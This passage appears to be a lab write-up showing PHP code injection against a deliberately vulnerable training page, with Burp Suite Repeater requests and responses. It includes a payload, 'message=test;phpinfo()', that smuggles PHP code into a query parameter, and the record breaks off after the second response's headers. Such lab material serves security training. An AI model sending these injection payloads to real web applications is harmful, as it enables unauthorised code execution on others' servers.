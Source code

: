 `burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test HTTP/1.1 📌
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 12741
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    <h1>PHP Code Injection</h1>

    <p>This is just a test page, reflecting back your <a href="/phpi.php?message=test">message</a>...</p>
    
    <p><i>test</i></p> 📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test;phpinfo() HTTP/1.1 📌
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
```